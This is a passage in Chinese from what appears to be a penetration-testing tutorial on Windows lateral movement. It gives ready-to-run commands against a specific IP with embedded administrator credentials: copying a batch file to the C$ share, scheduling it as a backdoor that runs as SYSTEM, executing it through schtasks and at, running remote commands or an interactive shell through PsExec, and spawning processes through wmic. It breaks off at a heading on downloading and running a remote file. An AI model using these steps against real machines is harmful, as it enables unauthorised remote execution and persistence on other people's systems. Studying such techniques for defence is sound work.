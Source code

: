 > copy D:\test.bat \\186.64.10.13\c$

3、创建计划任务执行后门程序

schtasks /create /s 186.64.10.13 /u Administrator /p Admin@123.. /ru "SYSTEM" /tn test /sc DAILY /st 22:18 /tr C:\\windows\\temp\\test.bat /F

创建计划任务，/tn 是任务名称，/sc 是任务运行频率，这里指定为每天运行， /tr 指定运行的文件，/F 表示强制创建任务

schtasks /run /s 186.64.10.13 /u administrator /p Admin@123.. /tn test /i

运行任务，其中 / i 表示**立即运行**

schtasks /delete /s 186.64.10.13 /u administrator /p Admin@123.. /tn test /f

删除计划任务

低版本的操作系统可以直接使用 at 创建计划任务：

net time \\186.64.10.13 at \\186.64.10.13 18:01 c:\windows\temp\test.bat

3.2.2PsExec(445 端口)

PsExec 来自 Microsoft 的 Sysinternals 套件，它首先通过 SMB 连接到目标上的 ADMIN$ 共享, 上传 psexesvc.exe，然后使用服务控制管理器启动. exe，以在远程系统上创建命名管道，最后使用该管道进行 I/O

> 下载地址：https://docs.microsoft.com/zh-cn/sysinternals/downloads/psexec

1、通过 ADMIN$ 连接，然后释放 psexesvc.exe 到目标机器。

2、通过服务管理 SCManager 远程创建 psexecsvc 服务，并启动服务。

3、客户端连接执行命令, 服务端启动相应的程序并执行回显数据。

psexec \\186.64.10.13 -u Domain\User -p Password Command

或者返回交互式 shell:

![](http://5b0988e595225.cdn.sohucs.com/images/20200314/7e236670cea7487abfd428a421c0da25.jpeg)

3.2.3WMI(135 端口)

WMI(Windows Management Instrumentation，Windows 管理规范) 是一项核心的 Windows 管理技术；用户可以使用 WMI 管理本地和远程计算机

通过使用端口 135 上的远程过程调用 (RPC) 进行通信以进行远程访问（以及以后的临时端口）, 它允许系统管理员远程执行自动化管理任务，例如远程启动服务或执行命令。 它可以通过 wmic.exe 直接进行交互。

查询进程信息：

wmic /node:186.64.10.13 /user:Administrator /password:Admin@123.. process list brief

![](http://5b0988e595225.cdn.sohucs.com/images/20200314/e4a7288e1cdc42a0b1a19366d01fb808.jpeg)

首先 WMI 并不支持执行命令，而是支持执行文件但是你可以加相应的参数，比如

wmic /node:186.64.10.13 /user:Administrator /password:Admin@123.. process call create "cmd.exe /c ipconfig"

创建进程：

wmic /node:186.64.10.13 /user:Administrator /password:Admin@123 process call create "calc.exe"

下载远程文件并执行:
